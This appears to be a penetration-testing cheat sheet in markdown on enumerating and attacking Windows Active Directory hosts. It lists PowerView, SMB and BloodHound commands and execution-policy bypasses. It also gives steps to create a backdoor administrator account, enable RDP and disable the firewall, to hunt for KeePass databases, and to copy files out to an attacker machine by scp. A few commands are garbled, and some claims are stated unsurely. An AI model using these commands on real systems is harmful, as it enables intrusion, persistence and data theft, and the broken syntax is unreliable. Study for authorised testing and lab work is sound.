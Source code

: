 # Windows Enumeration

### Powerview

*In the command prompt
```bash
# This will allow you to run scripts
powershell -ep bypass
...
# Load PowerView (once it's already installed)
> . ./PowerView.ps1
# See the structure
> Get-NetDomain
# Get the domain controller IP, possibly end target
> Get-NetDomainController
# Important Policies
> Get-DomainPolicy
# Get password policy, important insights while cracking passwords 
> (Get-DomainPolicy)."system access"
# Information about the user you have access to, can be a lot of information
> Get-NetUser
# Only pull down the usernames
> Get-NetUser | select samaccountname
# See when the users last changed their passwords
> Get-UserProperty -Properties pwdlastset
# See how many times each user has logged on, great way to identify honeypot accounts
> Get-UserProperty -Properties logoncount
# Get a ton of information about the computers
> Get-NetComputer -FullData # '| select {propertyName}' in order to nail down certain information, such as operating system
# See who are admins
> Get-NetGroupMember -GroupName *admin*
# Look through the different shares
> Invoke-ShareFinder
# Get the group policies, important one
> Get-NetGPO
# Narrowing down the above
> Get-NetGPO | select displayname, whenchanged

```

#### enum4linux

"As soon as you see that SMB is open, run enum4linux." It will try to enumerate SMB as much as it can.
```
enum4linux -A 123.123.123.123 -u user -p password # user and password are optional
```

#### smbclient

For enumerating SMB shares. I believe that you can also do it without credentials by putting an empty username and then maybe also an empty password, though maybe just the empty username. I may be getting this confused with cme smb. 

```bash
smbclient -L 123.123.123.123 -U domainname/username

# I believe that you can also do it without credentials by putting an empty username and then maybe also an empty password, though maybe just the empty username. I may be getting this confused with cme smb. 
cme smb -L -U '' 123.123.123.123
```

#### runas

Use this command to run as another user (if you have their credentials):

```bash
>  runas /user:domainname\\username cmd.exe
```

#### schtasks

Allows you to see the scheduled tasks on your local box (once you have a shell/ssh session). The following is command useful as it will essentially answer the quesion, if we can exploit this, what kind of priviledges will we gain?

```bash
schtasks /query
...
schtasks /query /fo LIST /v /TN "FTP Backup"
```

#### type 

The Windows equivalent of cat.

#### findstr

The Windows equivalent of grep.

#### Recursively Search Through Directories 

```bash
dir /s/b file.txt
```

#### Create a Backdoor User

You can use this user to RDP into a session and obtain a GUI. This assumes that you are already NT Authority.
```bash
net user /add backdoor Password1
...
net localgroup administrators /add backdoor
...
# Enables RDP Connections
add "HTLM\SYSTEM\CurrentControlSet\Control\Terminal Server" \v "fDenyTSConnections" /t REG_DWORD /d 0 /f
...
# Disable the Firewalls
netsh advfirewall set allprofiles state off
...
# RDP In & Allow Clipboard Sharing
xfreerdp /v:ms01 /u:backdoor /p:Password1 +x clipboard /cert:ignore
```

#### Collecting Data for Bloodhound on Windows

We're using the SharpHound.ps1 from GitHub.
```bash
> . .\\SharpHound.ps1
> Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName outfile.zip
```

#### Check for GPP Vulnerability

Say that you have a shell in MetaSploit, you can background that shell and run the "smb_enum_gpp" module to check if there is the GPP vulnerability in the environment.

#### Recursively Downloading Files with SMB

```bash
> prompt off
> recurse on
> mget *
```

#### Create a Share

```bash
> net share public=c:\\users\\public /GRANT:Everyone,FULL
```

#### NTLM v NTLMv2

NTLM hashes can be passed, NTLMv2 hased CANNOT be passed.

#### Execution Policy Bypass - Per script basis

```bash
# Simply append to your script
-ExecutionPolicy Bypass
```

#### Execution Policy Bypass - Per User Basis

```bash
# Get the current execution policy for your current user
Get-ExecutionPolicy -Scope CurrentUser

# Attempt the modify the execution policy
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

# Assure that the policy was changed
Get-ExecutionPolicy -Scope CurrentUser
```

#### Recursively Search a User's Workstation

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

#### Getting File from Windows Machine to Local - SCP

First, ensure the SSH service is running on your Kali machine:

```bash
sudo service ssh start
```

Then, from the Windows command line or PowerShell, transfer the file:

```powershell
scp C:\path\to\file.txt kali@<KALI_IP>:/path/to/save/
```